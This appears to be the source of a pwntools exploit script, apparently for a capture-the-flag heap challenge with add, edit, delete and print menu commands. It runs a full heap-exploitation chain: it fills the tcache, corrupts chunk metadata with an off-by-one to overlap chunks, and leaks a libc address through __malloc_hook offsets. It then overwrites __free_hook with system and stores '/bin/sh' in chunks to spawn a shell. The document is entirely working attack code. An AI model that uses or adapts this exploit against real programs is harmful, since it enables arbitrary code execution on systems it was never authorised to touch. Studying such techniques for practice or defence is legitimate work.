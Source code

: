 ```
    p.sendafter("User email:\n", content)


def show():
    p.sendlineafter("---------\n", "print")


def edit(index, content):
    p.sendlineafter("---------\n", "edit")
    p.sendlineafter("index to edit:\n", str(index))
    p.sendafter("User email:\n", content)


def delete(index):
    p.sendlineafter("---------\n", "delete")
    p.sendlineafter("index to delete:\n", str(index))


for i in range(10):
    add(i, 0x8)
for i in range(10):
    delete(i)

for i in range(10):
    add(i, 0xfc)

for i in range(7):
    delete(3 + i)


delete(0)
edit(1, b"a" * 0xf8 + p32(0x200))
delete(2)

for i in range(7):
    add(3+i, 0xfc)


add(0, 0xfc)
show()

p.recvuntil("User 1 email: ")
libc.address = u32(p.recv(4)) - 0x38 - 0x18 - libc.sym['__malloc_hook']

for i in range(7):
    delete(3 + i)

delete(0)
for i in range(7):
    add(3+i, 0xfc, b"/bin/sh")

log.success("libc address is `{``}`".format(hex(libc.address)))
# gdb.attach(p, "b *$rebase(0xE23)")

add(0, 0x130)
edit(0, b"a"*0xfc + p32(0x101) + p32(libc.sym['__free_hook']))

delete(3)
delete(1)
edit(0, b"a"*0xfc + p32(0x101) + p32(libc.sym['__free_hook']))

add(1, 0xfc)
add(2, 0xfc, p32(libc.sym['system']))
```
